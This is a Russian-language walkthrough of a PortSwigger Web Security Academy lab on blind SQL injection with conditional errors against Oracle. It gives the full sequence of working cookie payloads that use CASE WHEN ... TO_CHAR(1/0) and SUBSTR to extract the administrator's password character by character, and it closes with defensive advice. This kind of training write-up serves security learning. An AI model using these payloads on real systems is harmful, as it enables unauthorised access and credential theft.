## Lab: Blind SQL injection with conditional errors

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SQL Injection  
**Сложность:** Practitioner  
**Дата:** 2025-07-19

---

## TL;DR
Cookie `TrackingId` уязвим к Blind SQL инъекции на базе Oracle.
Нет ни видимых данных ни булева индикатора — единственный канал:
**наличие или отсутствие ошибки 500**. Через условные ошибки
(`CASE WHEN ... THEN TO_CHAR(1/0)`) определена длина пароля
(20 символов) и все символы пароля `administrator`.

---

## Отличие от предыдущей лабы

```
Прошлая лаба (conditional responses):
Индикатор: Welcome back появляется / исчезает
Техника:   AND '1'='1' (условный ответ)
БД:        PostgreSQL

Эта лаба (conditional errors):
Индикатор: HTTP 500 появляется / исчезает
Техника:   CASE WHEN ... THEN TO_CHAR(1/0) (условная ошибка)
БД:        Oracle
```

Нет никакого `Welcome back` — только ошибка или её отсутствие.
Чтобы вызвать ошибку намеренно — используем деление на ноль `1/0`.

---

## Описание уязвимости

### Принцип условной ошибки

```sql
CASE WHEN (условие) THEN TO_CHAR(1/0) ELSE '' END

Условие истинно  → выполняется TO_CHAR(1/0) → деление на ноль → HTTP 500
Условие ложно   → выполняется ''             → пустая строка  → HTTP 200
```

`TO_CHAR(1/0)` — Oracle специфичная конструкция. `TO_CHAR` приводит
результат к строке — это нужно чтобы тип совпал с `ELSE ''`.
Само деление `1/0` вызывает ошибку которую Oracle пробрасывает
в HTTP ответ как 500.

---

## Разведка

### Шаг 1 — Подтверждение инъекции через синтаксическую ошибку

Добавила одинарную кавычку к cookie:

```
TrackingId=xyz'
```

Сервер вернул **500** — незакрытая кавычка сломала SQL синтаксис.



Добавила вторую кавычку чтобы закрыть строку:

```
TrackingId=xyz''
```

Сервер вернул **200** — синтаксис исправлен. Это подтверждает что
ошибка именно SQL, а не какая-то другая.



### Шаг 2 — Определение типа базы данных

Попробовала подзапрос без таблицы:

```
TrackingId=xyz'||(SELECT '')||'
```

Получила ошибку — Oracle требует явного указания таблицы в SELECT.

Попробовала с `dual` (служебная таблица Oracle):

```
TrackingId=xyz'||(SELECT '' FROM dual)||'
```

Ошибки нет — **база данных Oracle**. `dual` существует только в Oracle.



### Шаг 3 — Подтверждение что сервер обрабатывает инъекцию как SQL

Запросила несуществующую таблицу:

```
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
```

Получила ошибку — сервер выполняет подзапрос и возвращает
ошибку БД. Это подтверждает что инъекция работает как SQL.



### Шаг 4 — Подтверждение существования таблицы users

```
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

Ошибки нет — таблица `users` существует.

`ROWNUM = 1` — Oracle специфичный способ ограничить результат
одной строкой (аналог `LIMIT 1` в PostgreSQL/MySQL).
Без него подзапрос мог бы вернуть несколько строк и сломать
конкатенацию.



### Шаг 5 — Проверка механизма условной ошибки

Проверила что CASE WHEN управляет ошибкой:

```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

**500** — условие `1=1` истинно → деление на ноль → ошибка.

```
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

**200** — условие `1=2` ложно → возвращается `''` → нет ошибки.



### Шаг 6 — Подтверждение существования пользователя administrator

```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

**500** — пользователь `administrator` существует в таблице `users`.

```sql
-- Если administrator существует:
-- WHERE username='administrator' находит строку
-- CASE WHEN (1=1) → TO_CHAR(1/0) → ошибка → 500

-- Если не существует:
-- WHERE username='administrator' не находит строк
-- CASE WHEN вообще не выполняется → нет ошибки → 200
```



---

## Определение длины пароля

### Шаг 7 — Перебор длины через LENGTH()

Последовательно увеличивала число пока ошибка не исчезла:

```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
→ 500 (длина > 1 ✓)

TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
→ 500 (длина > 2 ✓)

...

TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>19 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
→ 500 (длина > 19 ✓)

TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
→ 200 (длина не > 20 → длина = 20)
```

Длина пароля = **20 символов**.



---

## Извлечение пароля посимвольно

### Шаг 8 — Настройка Burp Intruder

Отправила запрос в Intruder. Установила payload на первый символ:

```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

`SUBSTR(password,1,1)` — Oracle функция, извлекает 1 символ
начиная с позиции 1 (в Oracle/PostgreSQL используют SUBSTR,
в MySQL — SUBSTRING, обе функции идентичны по смыслу).

**Настройки Payloads:**
```
Тип: Simple list
Добавила: Lowercase letters (a-z) + Numbers (0-9)
Итого: 36 символов
```

**Индикатор — Status code 500:**

В этой лабе нет `Welcome back` — ищем строку со статусом **500**
в колонке Status. Именно эта строка содержит правильный символ.



### Шаг 9 — Запуск и поиск результата

Запустила атаку. В результатах нашла строку со статусом **500** —
payload этой строки = первый символ пароля.



### Шаг 10 — Повторение для всех 20 позиций

Вернулась в Intruder, изменила смещение с `1` на `2`:

```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Повторила для позиций 3, 4 ... 20. Записывала символ из строки
со статусом 500 на каждом шаге.


---

## Получение доступа

### Шаг 11 — Вход под administrator

```
Username: administrator
Password: [20-символьный пароль]
```



---

## Итог

Полная последовательность:

```
xyz'                    → 500 (инъекция подтверждена)
xyz''                   → 200 (синтаксис исправлен)
SELECT '' FROM dual     → 200 (Oracle подтверждён)
SELECT '' FROM users
WHERE ROWNUM=1          → 200 (таблица users существует)
CASE WHEN (1=1)
THEN TO_CHAR(1/0)       → 500 (механизм условной ошибки работает)
CASE WHEN (1=2)
THEN TO_CHAR(1/0)       → 200 (механизм подтверждён)
CASE WHEN (1=1) ...
FROM users WHERE
username='administrator' → 500 (пользователь существует)
LENGTH(password)>19     → 500 (длина > 19)
LENGTH(password)>20     → 200 (длина = 20)
SUBSTR(password,1,1)
='правильный символ'    → 500 (символ найден) × 20 позиций
```

### Сравнение двух типов Blind SQLi

```
Conditional Responses          Conditional Errors
(прошлая лаба)                 (эта лаба)
──────────────────────────────────────────────────
Welcome back / нет             HTTP 500 / HTTP 200
PostgreSQL                     Oracle
AND '1'='1'                    CASE WHEN ... TO_CHAR(1/0)
Grep Match в Intruder          Status code 500 в Intruder
```

---

## Защита

```sql
-- УЯЗВИМО — значение cookie в запрос напрямую:
SELECT * FROM tracking WHERE id = 'xyz' || user_input || ''

-- БЕЗОПАСНО — параметризованный запрос (Oracle):
SELECT * FROM tracking WHERE id = :tracking_id
-- Передаём tracking_id как bind variable
```

```python
# Python cx_Oracle — параметризованный запрос:
cursor.execute(
    "SELECT * FROM tracking WHERE id = :id",
    id=tracking_id
)
```

Дополнительно:
- Параметризованные запросы исключают инъекцию полностью
- Не возвращать детали SQL ошибок в HTTP ответе —
  ошибка 500 с деталями Oracle даёт атакующему
  подтверждение типа БД и работающего условия
- Хранить пароли в виде хэшей — bcrypt, argon2
- Rate limiting — 720 последовательных запросов
  от одного IP должны блокироваться